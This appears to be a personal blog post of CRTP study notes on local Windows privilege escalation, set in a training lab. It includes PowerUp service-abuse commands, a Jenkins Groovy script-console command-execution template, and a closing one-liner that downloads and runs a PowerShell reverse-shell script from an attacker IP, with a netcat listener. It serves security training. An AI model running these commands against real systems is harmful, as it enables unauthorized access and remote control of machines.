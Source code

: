 ```yaml
---
title: "2 - Win Privesc"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser3.jpg
  overlay_image: /assets/images/main/header1.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Unquoted Paths and Modifiable Services"
description: "Unquoted Paths and Modifiable Services"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows 
toc: true
---
```



# Win Privesc - Local

> The material of CRTP about Local Privesc is not great

**There are various ways of locally escalating privileges on Windows box**:
```powershell
– Missing patches
– Automated deployment and AutoLogon passwords in clear text
– AlwaysInstallElevated (Any user can run MSI as SYSTEM)
– Misconfigured Services
– DLL Hijacking and more
– NTLM Relaying a.k.a. Won't Fix
```

**We can use below tools for complete coverage**:

[PowerSploit - Privesc Module](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[Privesc on GitHub](https://github.com/enjoiz/Privesc)

[winPEAS in PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)


## Services Issues using PowerUp

**Get services with unquoted paths and a space in their name**:
```powershell
Get-ServiceUnquoted -Verbose
```

**Get services where the current user can write to its binary path or change arguments to the binary**:
```powershell
Get-ModifiableServiceFile -Verbose
```

**Get the services whose configuration current user can modify**:
```powershell
Get-ModifiableService -Verbose
```

**Run all checks with automated tools** :
```powershell
# PowerUp:
Invoke-AllChecks

# Privesc:
Invoke-PrivEsc

# PEASS-ng:
winPEASx64.exe
```

## Feature Abuse
```
- If you have Admin access (default installation before 2.x), go to http://<jenkins_server>/script
- In the script console, Groovy scripts could be executed.
```

```powershell
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '
[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
```powershell
powershell -c <command>
```

> Again, you could download and execute scripts, run encoded scripts and more.


**Learning Objective 5**:

- Exploit a service and elevate privileges to local administrator.
- Identify a machine in the domain where ur user has local administrative access.
- Using privileges of a user on Jenkins get admin privileges on another server.


**[easy to detect]**
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -Username dcorp\studentx -Verbose
net localgroup Administrators
```

**[easy to detect - noise]**
```powershell
Find-PSRemotingLocalAdminAccess
```

```powershell
on Jenkins> powershell iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcp.ps1); power -Reverse -IPAddress 172.16.100.1 -Port 443
on Attacker> host the file in a webserver - example: HFS - HTTP File Server 
```

disable firewall or add exception
```powershell
on Attacker> netcat-win32-1.12.exe -lvp 443
```

